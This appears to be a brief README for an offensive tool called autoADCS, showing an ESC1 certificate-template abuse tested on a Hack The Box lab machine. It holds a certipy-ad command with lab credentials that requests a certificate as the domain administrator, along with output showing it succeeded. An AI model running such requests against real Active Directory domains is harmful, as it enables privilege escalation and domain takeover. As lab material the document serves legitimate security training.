 # autoADCS

### ESC1
Tested on https://app.hackthebox.com/machines/531
```➜  escape certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 14
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
